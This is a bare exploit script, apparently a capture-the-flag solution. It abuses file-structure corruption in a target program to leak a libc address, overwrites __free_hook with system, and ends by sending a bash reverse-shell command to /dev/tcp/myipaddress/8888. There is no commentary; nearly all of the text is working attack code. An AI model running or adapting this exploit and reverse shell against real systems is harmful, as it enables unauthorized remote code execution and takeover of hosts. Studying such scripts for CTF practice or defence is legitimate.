```
sleep(2)

#again

openfile("/dev/stdin")
openfile("/dev/stdout")
flags = 0xfbad3887
flags &= (~8)
flags |= 0x800
payload="C"*24+p64(0x231)+p32(flags)+p32(0)+p64(0)*13+p64(1)
readfile(0,len(payload))
writeline(payload)
readuntil("Done")
readfile(1,0)
fakebuf=heap+0x140
fakebuf_end=heap+0x200
payload2="D"*23+p64(0x231)+p32(flags)+p32(0)+p64(0)*3+p64(fakebuf)+p64(fakebuf_end)*4
readfile(0,len(payload2))
writeline(payload2)
readuntil("Done")
closefile(1)
readuntil("Closing /dev/stdout ...")
readuntil("\n")
readlen(8)
libc=0
libc=u64(readlen(8))
libcbase=libc-0x3BE400
freehook=libcbase+0x3C3788
system=libcbase+0x456a0
print "[LEAK] libc addr = ",hex(libcbase)

#again without stdout

_openfile("/dev/../dev/stdin")
_closefile(0)
_openfile("/dev/stdin")
flags = 0xfbad208b
payload="/bin/sh".ljust(24,"\x00")+p64(0x231)+p32(flags)+p32(0)+p64(freehook)*6+p64(freehook)+p64(freehook+0x80)
lenpayload=len(payload)
payload=payload.replace('\x7f','\x16\x7f')
_readfile(0,lenpayload)
writeline(payload)
payload2=p64(system)
payload2=payload2.replace('\x7f','\x16\x7f')
_readfile(1,8)
writeline(payload2)
_closefile(0)
writeline("bash -c 'bash -i >& /dev/tcp/myipaddress/8888 0>&1'")
io.interactive()
``` 
